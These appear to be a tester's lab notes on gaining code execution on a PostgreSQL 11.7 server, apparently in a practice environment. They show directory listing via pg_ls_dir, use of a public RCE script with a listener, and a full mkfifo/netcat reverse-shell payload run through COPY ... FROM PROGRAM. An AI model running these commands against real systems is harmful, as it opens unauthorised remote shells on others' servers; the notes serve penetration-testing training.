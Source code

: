 Maybe I can generate a payload with msfvenom and put it in tmp?

Found[ this blog](https://medium.com/@netscylla/postgres-hacking-part-2-code-execution-687d24ad2082)  which linked to a [more detailed blog](https://www.leidecker.info/pgshell/Having_Fun_With_PostgreSQL.txt) 

List postgres directories 

```
select pg_ls_dir('./');
```


Grabbing a hint.. look back at postgres version 11.7

![[PG/Linux/attachments/Pasted image 20250710211359.png]]

Google searching for “postgresql reverse shell 11.7 github” 

[Here's one ](https://github.com/squid22/PostgreSQL_RCE)

![[PG/Linux/attachments/Pasted image 20250710211600.png]]

Download the python file. 

Modify the variables.

![[PG/Linux/attachments/Pasted image 20250710211858.png]]

Set up penelope listener 

```
penelope 80
```


Run the exploit 

```
python3 postgres_rce.py
```

![[PG/Linux/attachments/Pasted image 20250710212108.png]]

:(

I fat fingered my IP address.

rev shell

```
'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.152 4444 >/tmp/f'
```

```
COPY cmd_exec FROM PROGRAM \'' + 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.152 4444 >/tmp/f'  + '\'
```

```
SELECT * from cmd_exec
```
